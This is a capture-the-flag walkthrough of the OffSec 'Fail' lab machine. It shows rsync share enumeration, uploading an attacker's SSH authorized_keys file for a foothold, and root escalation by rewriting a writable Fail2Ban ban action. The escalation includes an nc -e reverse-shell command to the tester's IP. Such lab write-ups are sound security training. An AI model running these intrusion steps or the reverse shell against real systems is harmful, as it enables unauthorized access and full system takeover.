# Fail

## Enumeration

Started with an Nmap TCP SYN scan of all ports:


```
# Nmap 7.94SVN scan initiated Wed Jun 26 17:49:30 2024 as: nmap -Pn -A -p- -o ./enumeration/external_tcp_all.nmap 192.168.234.126
Nmap scan report for fail.offsec (192.168.234.126)
Host is up (0.052s latency).
Not shown: 65533 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
|_  256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
873/tcp open  rsync   (protocol version 31)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=6/26%OT=22%CT=1%CU=39053%PV=Y%DS=4%DC=T%G=Y%TM=667C
...
OS:0%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=71D2%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


That seems a bit thin so I start a UDP Nmap scan just in case:


```bash
sudo nmap -Pn -sV -sU -o ./enumeration/udp.nmap $victim_ip
```


I get started with the TCP ports while I wait.

### Port 22

I think the easiest place to start is a brute force here so I fire up hydra and run a quick test:


```bash
hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt 192.168.234.126 ssh
```


No luck unfortunately. Not much else I can do here unless I find some creds.

### Port 873

I know nothing about [`rsync`](https://linux.die.net/man/1/rsync) which is apparently what is running here. According to its documentation `rsync` is "a fast and extraordinarily versatile file copying tool. It can copy locally, to/from another host over any remote shell, or to/from a remote rsync daemon."

With that in mind I start looking around for what to do with it. Fortunately HackTricks has an article and I start with their [manual enumeration techniques](https://book.hacktricks.xyz/network-services-pentesting/873-pentesting-rsync#banner-and-manual-communication).

The first thing they show involves listing the directories available via rsync. To do this I connect with Netcat and run some specific commands. After initiating the connection I receive the response highlighted in blue from the server. I parrot that back then ask for enumeration with the `#list` command (2 lines in yellow). Once enumeration is complete and the response (highlighted in green) returned, the server closes the connection:

<figure><figcaption><p>First enumeration of rsync</p></figcaption></figure>

A little further down it mentions how to list files on a share:


```bash
rsync -av --list-only rsync://192.168.234.126/fox
```


When run it seems the folder is the home directory of a user, probably called `fox`, as it contains a `.bashrc` file and other homey things:

<figure><figcaption><p>List of files on fox share</p></figcaption></figure>

I also find how to copy files from a share. I create a local rsync\_copy directory to hold the contents and use this command to copy all files:


```bash
rsync -av rsync://192.168.234.126/fox ./rsync_copy
```


<figure><figcaption><p>Copying the files</p></figcaption></figure>

I was hoping to find some credentials in them or something but they appear to be pretty standard.

## Foothold

Fortunately HackTricks offered one more suggestion for rsync. It turns out it works in both directions and can be used to upload files:

<figure><figcaption><p>Upload files</p></figcaption></figure>

I test if I can upload files by writing a random .txt file. I create a directory structure of fox/example on my local machine and add the test.txt file there. This will allow me to test if I can both upload files and create directories. I can it seems:


```bash
rsync -av ./fox/example rsync://192.168.234.126/fox/example
```


<figure><figcaption><p>Successful file upload</p></figcaption></figure>

Quick note, at this point I did not actually understand to syntax for the upload command so here I accidentally created a double-layer of `/example/example` because I was copying the entire local directory `/example` into a remote directory called `/example`. If the remote directory does not exist, rsync creates it before the copy. So in this case I asked the copy to go into a directory called `/example` and it created one, but then the copy itself had another `/example` directory leading to the double layer and the file being at `.../fox/example/example/test.txt`. I figured it out by the time I got to copying the SSH files [below](fail.md#creating-the-authorized\_keys-file).

### Plan

With this in mind a plan comes into focus. I will:

1. Generate an SSH key pair
2. Add it to a fake `authorized_keys` file
3. Upload the fake `authorized_keys` file to `fox`'s home directory
4. Sign in as `fox` via SSH

### Creating Key Pair

This is pretty easy with `ssh-keygen`. I create a key pair called `fox_ed25519` and add a password of `Password123!`:

<figure><figcaption><p>Creating the key</p></figcaption></figure>

This creates a pair of key files, one private and one public, called `fox_ed25519` and `fox_ed25519.pub` respectively.

### Creating the authorized\_keys File

An authorized\_keys file is just a list of keys that can be used to connect via SSH for a configured user. It is generally a list of public keys. In this instance, since there is no previously existing authorized\_keys file, it can just be a copy of the public key (`fox_ed25519.pub`).

In preparation for the `rsync` move I create a dummy `.ssh` directory and then I copy the `fox_ed25519.pub` file into it as `authorized_keys`. From there I simply move it over to the remote machine with the rsync command below. Just to be sure, I use the following command to list the files on the remote machine and I can validate `authorized_keys` has been copied successfully:

<figure><figcaption><p>Copying the authorized_keys file to remote machine</p></figcaption></figure>

[Recall](https://superuser.com/a/215506) that the `authorized_keys` file must have proper permissions set (`644`) in order to work properly. The `ls -l` command above was run to validate the file permissions.

### Using the Key

Now that the `authorized_keys` file exists on the victim, connecting is as simple as using SSH normally with the created key:


```bash
ssh -i fox_ed25519 fox@192.168.234.126
```


This works and user access is achieved as `fox`:

<figure><figcaption><p>SSH access as fox</p></figcaption></figure>

## Privilege Escalation

I run through my standard `sudo`, SUID, capabilities checks for some low-hanging fruit but no luck. I quickly transfer PEAS over and get it started.

After running PEAS I also move over pspy and run that. After it starts up I see something interesting:

<figure><figcaption><p>fail2ban found in pspy</p></figcaption></figure>

I do now know anything about this but the low-hanging fruit is gone and I dig in here.

### Fail2Ban

Fail2Ban is an intrusion prevention software framework. Written in the Python programming language, it is designed to prevent brute-force attacks. It is able to run on POSIX systems that have an interface to a packet-control system or firewall installed locally.

I also find this [super-helpful article](https://systemweakness.com/privilege-escalation-with-fail2ban-nopasswd-d3a6ee69db49) on privilege escalation via Fail2Ban. This was found by simply Googling "fail2ban local privilege escalation."

The basic premise of the technique is that if an attacker can write to the config directory for Fail2Ban, they can use that access to create custom actions triggered when a user is banned. E.g. instead of code to ban a user, I could have code to create a reverse shell to my machine. Then I only need to trigger a ban and a shell is created. To check if this is viable I need to see if I have write access to the config files which are stored in `/etc/fail2ban/action.d`:

```bash
find /etc -writable -ls 2>/dev/null
```

<figure><figcaption><p>Config directory is writable</p></figcaption></figure>

#### Ban Configuration

Now that I know I can write to the config files I start looking at the `/etc/fail2ban/jail.conf` file to figure out the triggers for a ban. It seems that more than 2 failures will get a user banned for one minute:&#x20;

<figure><figcaption><p>Ban configuration</p></figcaption></figure>

#### Configure Ban Action

With that in mind I head to the `/etc/fail2ban/action.d/iptables-multiport.conf` file to configure the ban action. I will simply overwrite the command with a reverse shell command. Prior to putting the command in the config file I tested it to ensure Netcat allowed the `-e` flag and port 8080 was reachable on my machine:

```bash
/usr/bin/nc -e /bin/bash 192.168.45.236 8080
```

<figure><figcaption><p>Setting the ban action</p></figcaption></figure>

#### Triggering Root Shell

Now that the ban action is set, I just need to trigger a ban. I know there is a fail2ban user on the machine so I just do some login attempts with that user and deliberately fail twice:

<figure><figcaption><p>Intentional failed logins</p></figcaption></figure>

A moment later the `actionban` is executed and I get a shell:

<figure><figcaption><p>Root shell</p></figcaption></figure>

`root` access achieved.

## Learned

* **Creating `authorized_keys` file:** I knew of the technique to overwrite/create an `authorized_keys` file and my own custom SSH key but this was my first time doing it
* **Fail2Ban:** I had not heard of this software. Following a tutorial to exploitation is always a good exercise

### Difficulty Rating

* **Foothold 2/10:** Once I discovered I could write to the machine getting a valid SSH key created and in an authorized\_keys file was not too challenging
* **Privilege Escalation 3/10:** I had no familiarity with Fail2Ban but the exploit technique was fairly simple
